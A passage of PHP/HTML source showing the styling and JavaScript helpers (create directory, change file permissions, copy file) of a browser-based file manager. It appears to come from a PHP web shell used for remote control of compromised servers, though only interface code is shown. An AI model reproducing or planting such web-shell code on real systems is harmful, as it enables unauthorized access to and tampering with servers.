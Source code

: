 	}
}

?&gt;
&lt;html&gt;
&lt;head&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=gbk"&gt;
&lt;title&gt;&lt;?php echo $action.' - '.$_SERVER['HTTP_HOST'];?&gt;&lt;/title&gt;
&lt;style type="text/css"&gt;
body,td{font: 12px Arial,Tahoma;line-height: 16px;}
.input{font:12px Arial,Tahoma;background:#fff;border: 1px solid #666;padding:2px;height:22px;}
.area{font:12px 'Courier New', Monospace;background:#fff;border: 1px solid #666;padding:2px;}
.bt {border-color:#b0b0b0;background:#3d3d3d;color:#ffffff;font:12px Arial,Tahoma;height:22px;}
a {color: #00f;text-decoration:underline;}
a:hover{color: #f00;text-decoration:none;}
.alt1 td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#f1f1f1;padding:5px 15px 5px 5px;}
.alt2 td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#f9f9f9;padding:5px 15px 5px 5px;}
.focus td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#ffffaa;padding:5px 15px 5px 5px;}
.head td{border-top:1px solid #fff;border-bottom:1px solid #ddd;background:#e9e9e9;padding:5px 15px 5px 5px;font-weight:bold;}
.head td span{font-weight:normal;}
.infolist {padding:10px;margin:10px 0 20px 0;background:#F1F1F1;border:1px solid #ddd;}
form{margin:0;padding:0;}
h2{margin:0;padding:0;height:24px;line-height:24px;font-size:14px;color:#5B686F;}
ul.info li{margin:0;color:#444;line-height:24px;height:24px;}
u{text-decoration: none;color:#777;float:left;display:block;width:150px;margin-right:10px;}
.drives{padding:5px;}
.drives span {margin:auto 7px;}
&lt;/style&gt;
&lt;script type="text/javascript"&gt;
function CheckAll(form) {
	for(var i=0;i&lt;form.elements.length;i++) {
		var e = form.elements[i];
		if (e.name != 'chkall')
		e.checked = form.chkall.checked;
    }
}
function $(id) {
	return document.getElementById(id);
}
function createdir(){
	var newdirname;
	newdirname = prompt('Please input the directory name:', '');
	if (!newdirname) return;
	$('createdir').newdirname.value=newdirname;
	$('createdir').submit();
}
function fileperm(pfile){
	var newperm;
	newperm = prompt('Current file:'+pfile+'\nPlease input new attribute:', '');
	if (!newperm) return;
	$('fileperm').newperm.value=newperm;
	$('fileperm').pfile.value=pfile;
	$('fileperm').submit();
}
function copyfile(sname){
	var tofile;
	tofile = prompt('Original file:'+sname+'\nPlease input object file (fullpath):', '');
	if (!tofile) return;
	$('copyfile').tofile.value=tofile;
	$('copyfile').sname.value=sname;